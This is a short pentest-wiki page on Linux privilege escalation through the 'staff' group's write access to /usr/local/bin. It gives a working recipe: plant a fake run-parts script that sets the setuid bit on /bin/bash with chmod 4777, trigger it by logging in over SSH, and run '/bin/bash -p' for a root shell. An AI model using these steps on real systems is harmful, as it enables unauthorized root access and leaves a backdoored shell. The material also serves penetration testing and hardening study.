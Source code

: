 ```yaml
---
description: Linux staff group, allows users to add local modifications to the system.
---
```


# Linux Staff group

Allows users to add local modifications to the system (/usr/local) without needing root privileges (note that executables in /usr/local/bin are in the PATH variable of any user, and they may "override" the executables in /bin and /usr/bin with the same name).&#x20;

As staff its possible to write to `/usr/local/bin` and `/usr/local/sbin`

{% hint style="info" %}
In debian distributions, `$PATH` variable show that `/usr/local/` will be run as the highest priority, whether you are a privileged user or not.
{% endhint %}

### Staff group privilege escalation

To escalate privileges using staff group privileges we create a script and set permissions for /bin/bash to full read, write and execute for owner, group and everyone else using `chmod 4777`.

```bash
# Create a run-parts script
$ nano /usr/local/bin/run-parts

#! /bin/bash
chmod 4777 /bin/bash
```

Make the file executable

```bash
chmod +x /usr/local/bin/run-parts
```

Then start a new ssh connection to trigger run-parts

```bash
# Run bash in privileged mode as root
$ /bin/bash -p 
```

### What is run-parts?

{% hint style="info" %}
The `run-parts` command in Linux is a script used to run all executable files in a specified directory.
{% endhint %}

It’s used for managing and running scripts in directories like `/etc/cron.daily`, `/etc/cron.weekly`, and `/etc/cron.hourly`, which are used for scheduled tasks.

Using `run-parts` program to get root is possible, because most programs will run `run-parts` like with ssh-login and crontab.&#x20;
